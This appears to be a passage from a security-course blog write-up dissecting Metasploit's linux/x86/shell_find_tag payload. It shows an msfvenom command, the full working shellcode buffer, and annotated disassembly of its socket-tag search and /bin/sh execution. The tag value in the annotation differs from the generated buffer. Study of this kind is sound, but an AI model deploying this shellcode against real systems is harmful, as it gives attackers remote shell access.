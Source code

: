 00000025  59                pop ecx
00000026  6A3F              push byte +0x3f
00000028  58                pop eax
00000029  CD80              int 0x80
0000002B  49                dec ecx
0000002C  79F8              jns 0x26
0000002E  6A0B              push byte +0xb
00000030  58                pop eax
00000031  99                cdq
00000032  52                push edx
00000033  682F2F7368        push dword 0x68732f2f
00000038  682F62696E        push dword 0x6e69622f
0000003D  89E3              mov ebx,esp
0000003F  52                push edx
00000040  53                push ebx
00000041  89E1              mov ecx,esp
00000043  CD80              int 0x80
{% endhighlight %}

Generating the shellcode with msfvenom:

{% highlight js %}
kali@kali:~$ msfvenom -p linux/x86/shell_find_tag -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 69 bytes
Final size of c file: 315 bytes
unsigned char buf[] = 
"\x31\xdb\x53\x89\xe6\x6a\x40\xb7\x0a\x53\x56\x53\x89\xe1\x86"
"\xfb\x66\xff\x01\x6a\x66\x58\xcd\x80\x81\x3e\x49\x45\x36\x48"
"\x75\xf0\x5f\x89\xfb\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79"
"\xf8\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80";
{% endhighlight %}

![assignment5-7](https://bohansec.com/assets/assignment5-7.PNG "assignment5-7")

Let's break down each part of the Assembly to see what it does:

[RECV](https://man7.org/linux/man-pages/man2/recv.2.html){:target="_blank"}

[MSG_DONTWAIT](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/bits/socket.h.html){:target="_blank"}

{% highlight js %}
Pass the systemcall arguments recv(int sockfd, void *buf, size_t len, int flags)

00000000  31DB              xor ebx,ebx ;set ebx to 0
00000002  53                push ebx ;push ebx onto the stack
00000003  89E6              mov esi,esp ; move the stack pointer to the esi
00000005  6A40              push byte +0x40; push 40 onto the stack, MSG_DONTWAIT flag
00000007  B70A              mov bh,0xa ;set the bg to 10
00000009  53                push ebx; push 10 onto the stack, this will be the len
0000000A  56                push esi; push the pointer onto the stack, this will be the *buf
0000000B  53                push ebx;this will be the sockfd
0000000C  89E1              mov ecx,esp ;move the stack pointer to ecx
0000000E  86FB              xchg bh,bl;bh has decimal 10, the SYS_RECV is being used
00000010  66FF01            inc word [ecx] ;goto the next socket
00000013  6A66              push byte +0x66 ;socketcall
00000015  58                pop eax ;set eax to 0x66
00000016  CD80              int 0x80 ;call socketcall
00000018  813E58597757      cmp dword [esi],0x57775958; XYwW, The four byte tag to signify the connection
0000001E  75F0              jnz 0x10; if not match, move to the next socket
{% endhighlight %}
